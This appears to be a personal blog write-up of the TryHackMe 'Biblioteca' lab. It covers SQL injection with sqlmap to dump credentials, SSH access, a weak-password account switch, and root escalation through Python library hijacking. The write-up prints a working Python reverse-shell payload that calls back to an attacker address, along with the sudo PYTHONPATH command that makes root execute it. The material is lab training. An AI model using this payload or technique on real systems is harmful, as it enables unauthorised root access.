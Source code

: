 ```yaml
---
title: "Biblioteca - TryHackMe"
date: 2022-05-23T20:20:50-03:00
---
```


https://tryhackme.com/room/biblioteca

## **User Flag**

First, we start by enumerating the ports and services.  
In the print below I have already set the ports to 22 and 8000 because I found out that they were open in a regular scan without any nmap flags.

![biblioteca](/biblioteca/PortScan.png)

\
I access the website and see that there is a login page. I try to create a user in the Sign-Up link to see what it looks like in there, but there is nothing interesting there.

![biblioteca](/biblioteca/Port8000.png)

![biblioteca](/biblioteca/UserLoggedIn.png)

\
Since the first page is a login page, I quickly try some SQL Injection with sqlmap, first by intercepting the POST request and then using it with the sqlmap command.

![biblioteca](/biblioteca/RequestIntercepted.png)

![biblioteca](/biblioteca/sqlmap.png)

\
We can observe that the parameter username is vulnerable so I start to retrieve informations from the database. You can see in the image above that the Database is called website.  

As this is a TryHackMe host probably the database is small, so to gain some time I use the flag –dump-all to dump everything from the website database.

![biblioteca](/biblioteca/DumpandoInfos.png)

\
Here I got a username and password and immediately try these credentials in SSH.

![biblioteca](/biblioteca/ssh-login.png)

\
Trying to find the flag, we see that it is in the hazel home and we don’t have permissions to read it. So, we need to find some way to login as hazel.

![biblioteca](/biblioteca/PermissaoNegada.png)

\
In this part I got stuck for a few minutes and I need to look at the hint. The hint was “Weak password”, so I just tried a simple password combination and “hazel”, same as the username, worked it.

Now logged as hazel, we just need to *cat* the user.txt and get the first flag.

![biblioteca](/biblioteca/flag-user.png)

## **Root Flag**

The first thing I do when I need to privilege escalation is to check the permissions with sudo and if there is something interesting in this user.

![biblioteca](/biblioteca/sudo-l.png)

\
We see that hazel can use the command python3 with root permissions in the file *hasher.py*.

Taking a look at this file, we see that there is a library being used: *hashlib*.

![biblioteca](/biblioteca/hasherPython.png)

\
Here we can do something that is called Python Library Hijacking. Basically, we just need to modify the library file and insert some malicious payload to get this payload executed by root.

This [article](https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/) explains this exploration in a very clear way.

Since we don’t have permission to edit the current library file, we copied it to the /tmp directory.

![biblioteca](/biblioteca/libtmp.png)

\
Now we can edit it and insert a python reverse shell payload with our tun0 address.

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.117.185",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

![biblioteca](/biblioteca/payloadLib.png)

\
We need to execute the python file with the PYTHONPATH argument, to tell where python will search for the libraries included in the hasher.py. When we execute the hasher.py, it will call the library hashlib and since there is this playload in the library file, the reverse shell will be popped in our listener.

Remember to set your listener before executing the command.

```
sudo PYTHONPATH=/tmp/ /usr/bin/python3 /home/hazel/hasher.py
```

![biblioteca](/biblioteca/comando.png)

\
Finally we obtain our reverse shell and just cat root.txt for the second flag.

![biblioteca](/biblioteca/flag-root.png)

See ya =).